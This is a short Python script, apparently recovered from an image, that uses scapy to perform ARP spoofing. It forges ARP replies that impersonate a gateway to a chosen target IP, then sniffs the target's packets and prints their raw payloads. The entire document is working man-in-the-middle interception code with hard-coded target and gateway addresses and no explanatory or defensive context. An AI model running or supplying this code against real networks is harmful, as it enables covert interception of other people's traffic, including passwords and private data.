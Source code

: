 from scapy.all import *
import time

def ethernet(targetIP):
    eth = Ether()
    eth.dst = getmacbyip(targetIP)
    eth.type = 0x0806
    return eth

def arpPacket(targetIP, spoofIP):
    arp = ARP()
    arp.hwlen = 6
    arp.plen = 4
    arp.op = 2  # ARP Reply
    arp.psrc = spoofIP  # Spoofed source IP address (usually the gateway IP)
    arp.hwdst = getmacbyip(targetIP)
    arp.pdst = targetIP
    return arp

def sendPacket(targetIP, spoofIP):
    eth = ethernet(targetIP)
    arp = arpPacket(targetIP, spoofIP)
    packet = eth / arp
    sendp(packet)

def sniffPackets(interface):
    print("Starting to sniff packets on interface:", interface)
    sniff(iface=interface, store=False, prn=processPacket)

def processPacket(packet):
    if packet.haslayer(IP) and packet[IP].src == targetIP:
        # Print out the IP layer and TCP/UDP summary if exists
        print(f"From {targetIP}: {packet.summary()}")
        if packet.haslayer(Raw):
            print("\tPayload:", packet[Raw].load)

if __name__ == '__main__':
    targetIP = "192.168.137.240"  # Target IP address to spoof
    spoofIP = "192.168.137.1"     # IP address to impersonate, usually the gateway
    interface = "eth0"            # Network interface to use

    # Start the ARP spoofing in a separate thread
    from threading import Thread
    arp_thread = Thread(target=lambda: sendPacket(targetIP, spoofIP))
    arp_thread.start()

    # Start sniffing on the same interface
    sniff_thread = Thread(target=lambda: sniffPackets(interface))
    sniff_thread.start()

    arp_thread.join()
    sniff_thread.join()

